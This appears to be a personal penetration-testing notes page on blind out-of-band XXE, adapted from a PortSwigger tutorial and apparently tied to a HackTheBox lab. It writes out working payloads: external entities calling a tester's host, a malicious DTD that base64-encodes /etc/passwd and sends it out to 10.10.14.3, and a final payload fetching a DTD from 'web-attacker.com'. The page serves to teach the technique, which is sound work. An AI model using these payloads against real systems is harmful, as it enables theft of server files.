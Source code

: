 ```yaml
---
description: >-
  XXE Blind Out of Band
title:  XXE Blind Out of Band             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Blind Out of Band]                     # Change Templates to Writeup
tags: [exploitation, xxe blind out of band, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Detection
You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3"> ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206005533.png)

In this case we receive a request on our web server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.62 - - [06/Feb/2023 06:50:04] "GET / HTTP/1.0" 200 -
```

### Input Validation Bypass
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```bash
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```bash
%myparameterentity;
```

### External Entities using Out of Band exploitation
This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.14.3"> %xxe; ]>
```
![Description](/assets/img/Pasted image 20230206005654.png)

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
![Description](/assets/img/Pasted image 20230206005910.png)

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY filename SYSTEM 'http://10.10.14.3/%file;'>">
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file with a wrapper to encode the payload as base64.
- Defines an XML parameter entity called `param1`, containing a dynamic declaration of another XML parameter entity called `filename`. The `filename` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `param1` entity, which causes the dynamic declaration of the `filename` entity to be performed.
- Uses the `filename` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```bash
http://10.10.14.3/structure.xml
# Python web server:
python3 -m http.server 80
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/structure.xml"> %xxe; %param1;]>

<Heartbleed>
<Ping>&filename;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206013133.png)
Examples:
[[Fulcrum#^]]

### References
Reference: [Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)

